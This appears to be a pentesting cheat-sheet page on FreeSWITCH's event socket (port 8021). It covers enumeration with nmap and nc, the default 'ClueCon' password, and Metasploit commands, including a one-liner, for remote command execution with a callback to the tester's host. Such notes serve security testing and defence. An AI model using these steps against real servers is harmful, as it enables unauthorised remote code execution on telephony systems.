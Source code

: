 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# FreeSWITCH (8021)

## 101

`FreeSWITCH` is an open-source VoIP platform commonly used for PBX systems, SIP trunking, and conferencing services. The `mod_event_socket` module in FreeSWITCH opens a TCP socket—typically on port `8021`—which allows external applications to communicate with the switch using a command/response protocol.

This interface should **never be exposed externally** without robust access controls. If an attacker guesses or knows the `event_socket_password`—which defaults to `ClueCon` in many installations—they can authenticate and issue commands to the FreeSWITCH server. With successful authentication, an attacker could list and manage calls, inject audio or messages, execute arbitrary dial plans, and potentially escalate privileges further depending on the system's configuration.

## Enumeration

```bash
# TCP scan with nmap
PORT     STATE SERVICE       VERSION

8021/tcp open  freeswitch-event FreeSWITCH mod_event_socket

# Manual service probbing
$ nc -nv 192.168.244.151 8021
(UNKNOWN) [192.168.244.151] 8021 (zope-ftp) open
Content-Type: auth/request
...
Content-Type: text/disconnect-notice
Content-Length: 67

Disconnected, goodbye.
See you at ClueCon! http://www.cluecon.com/
```

Upon probing with `nc`, the connection to the port succeeds and returns the message: `Content-Type: auth/request`, indicating that `FreeSWITCH` is prompting for a password. Authentication is usually performed using the command `auth <password>`. If the password is correct, the server responds with `Content-Type: command/reply Reply-Text: +OK accepted`.

## Attacks

```bash
# Check default credentials
$ creds search freeswitch
+------------+----------+----------+
| Product    | username | password |
+------------+----------+----------+
| freeswitch | <blank>  | ClueCon  |
+------------+----------+----------+

# Check public exploits
$ searchsploit freeswitch
...
FreeSWITCH - Event Socket Command Execution (Metasploit)                  
| multiple/remote/47698.rb
```

A [Metasploit module](https://www.rapid7.com/db/modules/exploit/multi/misc/freeswitch_event_socket_cmd_exec/) exists for the above RCE vulnerability:

{% code overflow="wrap" %}
```bash
msf > use exploit/multi/misc/freeswitch_event_socket_cmd_exec
msf exploit(freeswitch_event_socket_cmd_exec) > show targets

Exploit targets:
=================

    Id  Name
    --  ----
=>  0   Unix (In-Memory)
    1   Linux (Dropper)
    2   PowerShell (In-Memory)
    3   Windows (In-Memory)
    4   Windows (Dropper)
    
msf exploit(freeswitch_event_socket_cmd_exec) > set TARGET <target-id>
msf exploit(freeswitch_event_socket_cmd_exec) > show options
msf exploit(freeswitch_event_socket_cmd_exec) > exploit

# Inline command
sudo msfconsole -q -x "use exploit/multi/misc/freeswitch_event_socket_cmd_exec; set TARGET 3; set RHOSTS <target-ip>; set LHOST tun0; run;"
```
{% endcode %}
